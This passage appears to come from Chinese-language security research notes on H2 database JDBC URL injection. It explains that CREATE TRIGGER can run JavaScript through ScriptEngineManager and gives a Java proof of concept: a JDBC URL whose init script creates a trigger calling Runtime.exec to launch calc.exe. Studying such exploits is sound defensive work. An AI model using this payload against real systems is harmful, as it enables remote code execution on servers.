 ![](./img/2023-08-03-11-08-33.png)
##### ScriptEngineManager
而在`CREATE TRIGGER`中还支持执行javascript和ruby,当代码以`//javascript`和`#ruby`开头便会调用对应的引擎进行编译执行了,而javascript时JAVA自带的不需要其它依赖.
![](./img/2023-08-03-11-13-48.png)  
poc: 
```
String url = "jdbc:h2:mem:test;init=CREATE TRIGGER shell BEFORE SELECT ON \n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                " java.lang.Runtime.getRuntime().exec('cmd /c calc.exe')\n" +
                " $$";
```